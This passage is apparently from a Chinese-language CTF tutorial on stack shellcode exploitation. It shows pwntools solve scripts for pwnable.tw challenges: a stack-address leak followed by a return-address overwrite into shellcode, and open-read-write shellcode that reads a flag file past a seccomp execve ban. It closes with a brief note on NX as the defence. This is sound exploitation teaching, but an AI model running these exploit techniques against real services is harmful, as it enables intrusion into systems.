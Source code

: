 泄露出这个栈地址后，程序会第二次执行read，我们只需要输入长度为0x14的填充+计算好的返回地址+shellcode就行了。这里的返回地址要正好等于shellcode的开始地址。

给出解题代码：

```python
from pwn import *
p=remote("chall.pwnable.tw",10000)

shellcode='' #这里写入32位自己构造的shellcode

p.recv()
p.send(b'#'*0x14+p32(0x08048087))

stk_addr=u32(p.recv(4))
p.recv()

p.send(b'#'*0x14+p32(stk_addr+0x14)+shellcode)
p.interactive()
```

例2.orw基础题

来自pwnable.tw t2，直接函数指针调用，但是通过seccomp关闭了execve的调用，导致我们不能运行sh。

因此，我们考虑orw，这里演示一下pwntools里的一些工具使用。

```python
shellcraft.arch.os.syscall(syscall_id, arg1, arg2, ...)
```

arch处写架构，本题是i386，os写系统，本题linux。syscallid为调用号，可以写数字，或者常量，比如'SYS_open'等等。

```python
from pwn import *

shellcode = ""
shellcode += shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall(5,"esp", 0)
shellcode += shellcraft.i386.linux.syscall(3,3, 0x0804A0D7,40)#第二个3可以写成'eax'
shellcode += shellcraft.i386.linux.syscall(4,1, 0x0804A0D7,40)
```

例3.ascii可打印字符的shellcode

## 安全防御

解决办法很简单，就是限制存数据的区域不应该被当成代码。记得之前编译时的参数，事实上就是取消了栈上不可执行这一限制（NX）。开启后，a这一栈上的数组区域就无法再作为代码执行了。

